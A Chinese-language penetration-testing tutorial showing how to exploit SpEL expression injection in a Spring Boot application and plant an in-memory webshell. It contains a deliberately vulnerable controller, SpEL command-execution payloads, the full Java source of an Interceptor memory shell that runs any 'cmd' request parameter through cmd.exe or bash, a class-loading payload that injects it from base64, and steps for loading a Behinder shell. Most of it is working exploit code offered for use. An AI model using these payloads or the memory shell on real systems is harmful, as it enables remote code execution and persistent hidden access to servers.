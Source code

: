 #  SpEL表达式漏洞注入内存马   
原创 暗月大徒弟  moonsec   2025-04-14 04:22  
  
### 1.实验环境  
  
jdk8 202  
  
springboot  1.3.0.RELEASE  
### 2.漏洞代码  
```
package code.landgrey.controller;

import org.springframework.expression.Expression;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

import java.io.IOException;

@RestController
public class TestController {
    @RequestMapping("/memshell")
    public String index(String name) throws IOException {
        SpelExpressionParser spelExpressionParser = new SpelExpressionParser();
        Expression expression = spelExpressionParser.parseExpression(name);
        String out = (String) expression.getValue();
        System.out.println(out);
        return out;
    }
}

```  
### 创建 spelExpressionParser 对象 调用 parseExpression方法 解释表达式 expression.getValue() 获取执行的值转为字符串输出。  
### 3.表达式测试  
  
输入字符串  返回字符串  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHEicNiaQaPJav7obHKZAxg5Ficu1Cr75FSFB4fTSf24g8S73srwibQXGdWX4AWGSY0A9H9OFHPK7LMg/640?wx_fmt=jpeg&from=appmsg "")  
  
T(Type)”来表示java.lang.Class类的实例，即如同java代码中直接写类名。  
```
T(java.lang.Runtime).getRuntime().exec("calc")
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHEicNiaQaPJav7obHKZAxg5Ys5NtEnBVibL6qNJMs5OQaup4icWWxNaKBtibANZAcB09BibzOjog6UkxQ/640?wx_fmt=jpeg&from=appmsg "")  
  
也可以使用new class  创建实例  
```
new ProcessBuilder("cmd","/c","calc").start()
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHEicNiaQaPJav7obHKZAxg5CoV6prNjmKYhwGFDfDJkaNwOFEVYQv6CTXgoPgWp289hMXLSia58BUw/640?wx_fmt=jpeg&from=appmsg "")  
  
回显  
```
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()
new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir", ".\\").start().getInputStream(), "GBK").useDelimiter("asfsfsdfsf").next()
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHEicNiaQaPJav7obHKZAxg5XHIyVb9q3cqMeXeEHprDXOTdZHsLt0oQxzIrmTRC9Ng8ozvlngKjRw/640?wx_fmt=jpeg&from=appmsg "")  
### 4.注入内存马  
  
创建 Interceptor 内存马  
```
import org.springframework.web.servlet.HandlerInterceptor;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
import java.util.List;

public class InceptorMemShell extends AbstractTranslet implements HandlerInterceptor {

    static {
        System.out.println("staart");
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Field field = null;
        try {
            field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        }
        field.setAccessible(true);
        List<HandlerInterceptor> adaptInterceptors = null;
        try {
            adaptInterceptors = (List<HandlerInterceptor>) field.get(mappingHandlerMapping);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
        InceptorMemShell evilInterceptor = new InceptorMemShell();
        adaptInterceptors.add(evilInterceptor);
        System.out.println("ok");
    }

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                response.setCharacterEncoding("gbk");
                java.io.PrintWriter printWriter = response.getWriter();
                ProcessBuilder builder;
                String o = "";
                if (System.getProperty("os.name").toLowerCase().contains("win")) {
                    builder = new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd});
                } else {
                    builder = new ProcessBuilder(new String[]{"/bin/bash", "-c", cmd});
                }
                java.util.Scanner c = new java.util.Scanner(builder.start().getInputStream(),"gbk").useDelimiter("wocaosinidema");
                o = c.hasNext() ? c.next(): o;
                c.close();
                printWriter.println(o);
                printWriter.flush();
                printWriter.close();
            } catch (Exception e) {
                e.printStackTrace();
            }
            return false;
        }
        return true;
    }

    @Override
    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
    }

    @Override
    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```  
  
   
  
利用 springboot的org.springframework.cglib.core.ReflectUtils加载类执行。   
  
传入类名 字节码 和 加载器  
```
  public static Class defineClass(String className, byte[] b, ClassLoader loader) throws Exception {
        return defineClass(className, b, loader, PROTECTION_DOMAIN);
    }

    public static Class defineClass(String className, byte[] b, ClassLoader loader, ProtectionDomain protectionDomain) throws Exception {
        Object[] args = new Object[]{className, b, new Integer(0), new Integer(b.length), protectionDomain};
        Class c = (Class)DEFINE_CLASS.invoke(loader, args);
        Class.forName(className, true, loader);
        return c;
    }
```  
  
  
payload   
```
T(org.springframework.cglib.core.ReflectUtils).defineClass('InceptorMemShell',T(org.springframework.util.Base64Utils).decodeFromString(''),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()
```  
  
  
将内存马转为base64  不换行  
```
cat InceptorMemShell.class | base64 -w0
```  
  
接着转码提交即可注入内存马  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHEicNiaQaPJav7obHKZAxg5pQ4sXyuTicibUILjicjAL0c8eddR1n7tiaicD5HZ0VMtPEibGlpPqFMoboaQ/640?wx_fmt=jpeg&from=appmsg "")  
  
执行弹出计算器命令  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHEicNiaQaPJav7obHKZAxg5CBANaUWRnOcib03oVAGIveicdPWcCKrs2lq69QiaDNH5DGJzkowq9y0UQ/640?wx_fmt=jpeg&from=appmsg "")  
### 5.注入Behinder内存马  
  
运行jmg选择Behinder内存马 SpEl 这些配置打上。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHEicNiaQaPJav7obHKZAxg59W1gzgjXZ7iagEju5w5HGST7qK1ZfTRfiaccf9KNlhbK8icEFpuXJJDrw/640?wx_fmt=jpeg&from=appmsg "")  
  
自带利用加载payload 把#(和最后的)去掉 因为这里不需要占位符  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHEicNiaQaPJav7obHKZAxg5wl1CQZySibZcWPSG3PDEkia4DW5o43kpaQfSBtOYPk9WmWaHCEGff8Mg/640?wx_fmt=jpeg&from=appmsg "")  
  
url转码提交 Behinder填写配置信息即可连接  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHEicNiaQaPJav7obHKZAxg5InmZOiaicYBmImzH9icMRglSiaHWpPqCeBbkZ0NXXuQ0Q5HibHZLLPTuMLg/640?wx_fmt=jpeg&from=appmsg "")  
  
想系统学习渗透测试？扫码报名培训课程！  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADHEicNiaQaPJav7obHKZAxg5BDxoEY94MarKCnoEbSkpQbBXSgVfrKeDp5zNcug8RsAibrlgQrWl9qA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
